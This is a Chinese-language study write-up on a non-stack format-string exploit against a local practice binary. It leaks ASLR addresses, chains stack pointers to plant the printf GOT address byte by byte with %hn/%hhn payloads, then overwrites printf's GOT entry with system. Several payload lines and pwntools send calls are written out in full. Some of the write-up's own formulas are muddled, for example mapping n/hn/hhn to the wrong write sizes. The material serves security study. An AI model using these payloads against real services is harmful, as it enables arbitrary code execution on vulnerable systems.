# 非栈上的格式化字符串利用

> 格外注意：`%6$hn` 除了用来计算运行时地址，没有任何用处！不要和 `%9$hn` 混淆！

## 泄露

第一步是普通的aslr泄露和libc泄露, 可以直接用栈上已有的数据



分别对应的是"%6$p"和"%7$p"

> 我们知道 `%6$p` 很容易获取（通过泄漏）；在任何实例中，解引用的 `%6$p` 与某个地址（往往是我们想要得到的）的差（在本题中为 - 0x28）恒定，所以可以使用 `gdb` 打开 ELF ，查看解引用的 `%6$p`（ `rsp+0` ）与某个地址，算出差，然后开启另一个实例，泄漏解引用的 `%6$p`，从而算出那个地址在本实例的实际值。
> 举个例子：
> `0x7fffffffe1a0->0x7fffffffe178 is -0x28 bytes (-0x5 words)`
> 注意虽然是大数减小数，但结果是相反数；算术上应该为 0x28 。从而本题计算：`int(io.recv(12), 16) - empty_stack == 0x28` 。这里的 `empty_stack` 就是我们想要得到的，一个存储了 0x0 的地址。移项可得：
> `empty_stack = int(io.recv(12), 16) - 0x28` 。

## 结构寻找



要找的结构分别为 : 三联, 三联对应的二联, 以及space_stcak

白色的是三联和二联, 红色的是space_stcak, 栈上可以找到很多个space_stcak, 只要里面的数据是00000000就可以

### 原理解析

为什么要这些结构呢? 以下gdb示例图

```
A->B->C->...  #三联
 
D->0          #space_stack

B->C->...     #二联
```

```
A     %9$p    03:0018│         0x7fffffffe118 —▸ 0x7fffffffe228 —▸ 0x7fffffffe4c3 ◂— '/home/scetayh/Projects/pwn-study/non-stack-fmt/pwn'
B     %43$p   25:0128│ rbx                        0x7fffffffe228 —▸ 0x7fffffffe4c3 ◂— '/home/scetayh/Projects/pwn-study/non-stack-fmt/pwn'
C     ... (we do not care since it will be modified via *B)

D     %21$p   0f:0078│                                               0x7fffffffe178 ◂— 0x0
// or rsp+0x1a, rsp+0x1b, etc.
```

我们的期望是找到一个这样的结构

我们使用的payload通常为"%{value}c%${arg}n", 对于以上的结构, 我们能做到的事目前只有向B和C解引用后的地址写入内容

> B 解引用得 **C** ，C 解引用得 **`0x0`** 。

首先第一步是对三联使用payload, **将三联, 二联和space_stcak连在一起**

> 操作对象是 B ，这样解引用后相当于将 C 改为 D 。以下。

```
A->B->D->0   #三联

D->0         #space_stack

B->D->0      #二联
```

然后下一步是向原本的二联写入单个字节(假设是0x10), 达到以下效果

>既然将 C 改为 D ，那么 D 必定是自定义的值，所以直接操纵 D ，解引用后相当于将 0x 改为 0x10 。以下。

```
A->B->D->0x10   #三联

D->0x10         #space_stack

B->D->0x10      #二联
```

接着我们需要继续使用payload修改三联, 让**指针向后移动**一个字节

> 操作对象仍然是 B ，这样解引用后相当于将 D 改为 D + 1 。以下。

```
A->B->(D+1)->0   #三联

D->0x10          #space_stack

B->(D+1)->0      #二联
```

然后对二联进行内容的写入

```
A->B->(D+1)->0x20   #三联

D->0x2010           #space_stack

B->(D+1)->0x20      #二联
```

重复上述步骤, 其中三联用于挪动指针, 二联用于写入数据

---

```
A->B->(D+2)->0   #三联

D->0x2010        #space_stack

B->(D+2)->0      #二联
```

```
A->B->(D+2)->0x30   #三联

D->0x302010         #space_stack

B->(D+2)->0x30      #二联
```

---

```
A->B->(D+3)->0   #三联

D->0x302010      #space_stack

B->(D+3)->0      #二联
```

```
A->B->(D+3)->0x40   #三联

D->0x40302010       #space_stack

B->(D+3)->0x40      #二联
```

以上便成功把一个四字节的整形0x40302010写入了栈上

> 摘要：A 在泄露其解引用后的内容 B 之后便无用了；得到 B 后，修改其解引用后的结果，将结果从内存中原样的 C 改为我们指定的 D 、D + 1 、D + 2 …… C 自始至终无用。然后修改 D 、D + 1 、D + 2 等解引用后的结果。因为D 本身就是地址，所以 + 0 / 1 / 2 后得到的必然是连续地址，解引用后必然为相邻连续空间，因而可以复写较长的连续内容。
>
> 整个过程中，被修改的有 C（通过 B）、D + n（通过 B）、D + n 解引用后的内容（通过 D + n ）。A 和 B 没有被修改。
>
> 无法直接修改 B 为 D + n 。B 是 A 解引用后的结果，倘要修改 B ，需要对 A 操作。而我们使用的 payload 是 `%{value}c%${arg}n` ，`{arg}` 确实定为 9 ，即 A（`03:0018`），但 payload 发送后将被类似于解两次引用，得到 C 而非 B 。这也是寻找可用三联的原因；二联环数不足，只有三联才能兜底到 C 。

> **兹洛瓦恩公式**　一般地，将单字节、双字节或四字节 `value`（ `value != 0` ）写入地址 `addr`（或者说用 `value` 替换地址 `addr` 解引用后的内容）：
>
> `snd(f"%{value}c", "%{pos + 6}${fmt}")`
>
> 其中：
>
> - `pos` 为 `addr` 在栈上的地址与栈基址的字节差（即比特位差的八分之一）；
> - 当 `value` 分别为单字节、双字节和四字节时，`fmt` 分别为 `n` 、`hn` 、`hhn` 。
>
> 特殊地，当 `value != 0` 时：
>
> `snd("%{pos + 6}${fmt}")`
>
> 一般记兹洛瓦恩公式为函数 `zlovan(value, pos, fmt)` 。

> 例如，想把 `rbp+5` 所存地址解引用后的内容从 `0xffffffff1234` 改为 `0xffffffffab34` ，那么：
>
> `snd("%43828c", "%11$hn")`（0xab34 = 43828）
>
> 或者：
>
> `value = 0xab34`
>
> `snd(f"%{value}c", "%11$hn"`

> **兹洛瓦恩公式的逆用**　相反地，对于语句：
>
> `snd("%{v1}c", "%{v2}${v3}")`
>
> 其功能是将 `v3` 对应字节的值 `v1`写入栈基址上方 `v2 - 6` 字节处所存的地址处（或者说用 `v3` 对应字节的值 `v1` 写入栈基址上方 `v2 - 6` 字节处所存的地址解引用后的内容）。

> 例如，对于语句：
>
> `snd(f"%{empty_stack & 0xffff}c", "%9$hn")`
>
> 其功能是将 `empty_stack` 的较低两位（即 16 比特）写入栈基址上方 3 字节处（即 `rbp+3` ）所存的地址处。

> **兹洛瓦恩复合公式**　一般地，将 `n` 字节 `value` 写入地址 `addr`（或者说用 `value` 替换地址 `addr` 解引用后的内容）：
>
> `for i in range(n):`
>
> `    zlovan(addr_lowpos + i - 1, pos1, fmt)`
>
> `    zlovan((value >> (8 * (i - 1))) && 0xff, pos2, "hhn")`
>
> 其中：
>
> - `addr_lowpos` 为 `addr` 的较低一位、两位或四位（即 8 、16 或 32 比特）；
> - `pos1` 为 `addr` 在栈上的地址（三联地址）与栈基址的字节差；
> - `fmt` 取决于 `addr_lowpos` 。
> - `pos2` 为 `addr`（二联地址）与栈基址的字节差；
>
> 只有当 `addr` 除 `addr_lowpos` 以外的各个位与**其所在的兹洛瓦恩公式中的形参 `addr` 解引用后的内容**所对应的各个位均相同时，兹洛瓦恩复合公式才成立。
>
> 一般记兹洛瓦恩复合公式为函数 `zlovancompos(n, addr_lowpos, pos1, fmt, pos2)` 。


## 回到gdb中

我们期望写入栈上的内容是got表, 也就是`0x404000`

> IDA ：

```
.got.plt:0000000000404000 off_404000      dq offset printf        ; DATA XREF: _printf+4↑r
```

### 将三二联和space_stcak连在一起



> 白联红空。
> 白色：A-B-C-foo（foo 是什么我们不关心）和 D-0x0 。
> 通过 B ，将 C 修改为 D 。以后会将 D 修改为 D + 1 ，D + 1 修改为 D + 2 …… 

观察到此时三联的末尾和space_stcak只有末尾的两个字节不同, 因此选用的payload是%hn, 这个格式化符号可以做到对short类型进行修改

> 末尾不同的两个字节：`de 91` 和 `da 68` 。

对于"%{n1}c%${n2}hn"来说, 其中的n1就是想把三联末尾的低二字节修改成什么, 由于先前泄露过栈地址(红框中), 可以直接使用泄露的栈地址通过偏移得到目标



+ n1的计算

gdb中原生支持这种指令, 也就是即使存在aslr, 只要泄露了刚刚红框中的栈地址, 就可以通过-0x28得到space_stcak的地址

> 这里和最开始的公式推导相吻合。

那么就可以使用python中的格式化字符串机制得到n1 = ((stack-0x28)&0xffff)
+ n2的计算

由于我们要改的是三联, 所以n2就是三联对应的index, 之前提到过

```
printf(fmt,arg1,arg2...)
```

寄存器会传入**1个格式化符号fmt**和**5个fmt可以格式化的参数**, 那么三联对应的就是第**5+4=9**号

也就是这里的n2=9

> 可以简化为以下表述：
> `00:0000` 是 `arg6` ，从而 `03:00018` 是 `arg9`。
> 总之牢记“参数序号”减去“偏移字节数”恒等于 6 。”

---

所以第一段payload是

```
payload=f"%{space_stack&0xffff}c".encode()+b"%9$hn\x00"
```

效果如下



可以看到满足了

```
A->B->D->0   #三联

D->0         #space_stack
```

这样的结构

### 开始写入got表

然后我们就该写入got表了

> `0x404000`

由于我们只能一个字节一个字节写入, 所以最先写入的字节是`\x00`

x想写入space_stcak, 此刻就要借助**二联**

但是由于这里本身就是0, 所以这一步可以被省略; 不过为了演示效果, 我使用gdb的命令 : `set *0x7fffffffda68(也就是space_stcak)=0x10`强行写入一个0x10, 这样就可以看到`\x00`被写入的效果了



三联位于偏移0x25(37), 按照先前的计算方法也就是37+5+1=43(这里加1是因为偏移是从00开始的), 也就是这里的n2为43, 因为n1是0所以整个`%{n1}c`都不需要写了

---

第二段的payload如下

```
payload=b"%43$hhn\x00"
```

发送这个payload后可以看到`\x00`被写入了



### 指针移动

接下来就是写入got表的下一位0x40, 我们就要回到三联

刚刚把space_stack写入三联使用的payload是`payload=f"%{space_stack&0xffff}c".encode()+b"%9$hn\x00"`

我们只需要将`space_stack+1`写入三联, 只需要简单修改一下刚刚的payload就好

```
payload=f"%{(space_stack&0xffff)+1}c".encode()+b"%9$hn\x00"
```

效果如下



### 继续写入got表

此时还是对二联进行写入, 此时要写入的是0x40, 那么n1=0x40, n2不变还是43

所以payload如下

```
payload=b"%64c%43$hhn\x00"
```

效果如下



### 重复上述步骤

向后移动指针

```
payload=f"%{(space_stack&0xffff)+2}c".encode()+b"%9$hn\x00"
```



写入got表的下一字节

```
payload=b"%64c%43$hhn\x00"
```



此时便会发现got表的三个字节被完整写入了栈上, 可以使用%21$n进行修改了

---

## 重复整个got表写入栈上的流程

由于把printf的地址修改为system的地址需要修改2.5字节, 其实也就是三字节, 一次性修改很可能导致段错误

所以还需要在栈上再找一个space_stcak2, 写入`got+1`

把`got+1`写入栈上的步骤和刚刚没用区别, 只是数值会稍微变化

这里直接挑选space_stcak2=space_stack+8 : `space_stack=space_stack+8`

使用的pyaload如下

```
printf_got=0x404001

payload=f"%{space_stack&0xffff}c".encode()+b"%9$hn\x00"
io.send(payload.ljust(0x1000,b'\x00'))

payload=b"%c%43$hhn\x00"
io.send(payload.ljust(0x1000,b'\x00'))

payload=f"%{(space_stack&0xffff)+1}c".encode()+b"%9$hn\x00"
io.send(payload.ljust(0x1000,b'\x00'))

payload=b"%64c%43$hhn\x00"
io.send(payload.ljust(0x1000,b'\x00'))

payload=f"%{(space_stack&0xffff)+2}c".encode()+b"%9$hn\x00"
io.send(payload.ljust(0x1000,b'\x00'))

payload=b"%64c%43$hhn\x00"
io.send(payload.ljust(0x1000,b'\x00'))
```

最终效果如下



现在got和got+1都在栈上, 就可以完成最后的got表劫持了

## got表劫持

```
...
got  :
got+1:
...
```

我们最终的目的是把system的地址: `base+0x58750`覆盖掉当前的`base+0x60100`

只需要修改3字节就够了, 而且栈上有两个got表, 那么最终

```
...
got  : system&0xff
got+1: (system>>8)0xffff
...
```

这样改就可以了

其中先把`system&0xff`和`(system>>8)0xffff`算出来

```
t1=system&0xff
t2=(system>>8)&0xffff
```

然后got和got+1的index分别是15+5+1=21和16+5+1=22

那么payload就是

```
payload=f"%{t1}c%21$hhn%{t2-t1}c%22$hn" # 注意第二段需要t2-t1, 因为t1的长度已经在第一段计算过了
```

最终效果如下

